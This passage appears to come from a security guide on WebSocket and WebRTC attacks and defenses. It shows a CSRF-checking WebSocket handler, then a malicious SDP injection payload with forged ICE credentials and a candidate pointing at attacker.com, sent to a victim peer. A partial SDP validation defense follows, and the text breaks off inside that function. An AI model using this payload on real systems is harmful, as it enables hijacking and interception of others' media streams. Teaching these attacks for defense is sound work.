 
// WebSocket server with CSRF protection
wss.on('connection', (ws, req) => {
    const csrfToken = req.headers['x-csrf-token'];
    
    // Validate CSRF token
    if (!validateCSRFToken(csrfToken, req.headers.cookie)) {
        ws.close(1008, 'Invalid CSRF token');
        return;
    }
    
    // Additional authentication
    const sessionId = extractSessionId(req.headers.cookie);
    if (!isValidSession(sessionId)) {
        ws.close(1008, 'Invalid session');
        return;
    }
});
```

### WebRTC SDP Injection Attack
SDP injection allows STUN/TURN server manipulation and media hijacking
Attack Implementation:
```
// Malicious SDP injection
const maliciousSDP = `v=0
o=- 4611731400430051336 2 IN IP4 127.0.0.1
s=-
t=0 0
a=group:BUNDLE audio video
m=audio 9 UDP/TLS/RTP/SAVPF 111
c=IN IP4 0.0.0.0
a=rtcp:9 IN IP4 0.0.0.0
a=ice-ufrag:malicious
a=ice-pwd:injected_credentials
a=fingerprint:sha-256 AA:BB:CC:DD:EE:FF:00:11:22:33:44:55:66:77:88:99
a=setup:actpass
a=mid:audio
a=sendrecv
a=rtcp-mux
a=rtpmap:111 opus/48000/2
a=candidate:foundation 1 udp 2113667326 attacker.com 54400 typ host`;

// Inject malicious SDP through signaling server
signalingSocket.emit('offer', { sdp: maliciousSDP, target: 'victim-peer-id' });
```

Defense Implementation:
```
// SDP validation and sanitization
function validateSDP(sdp) {
    const lines = sdp.split('\n');
    const bannedIPs = ['0.0.0.0', '127.0.0.1', '::1'];
    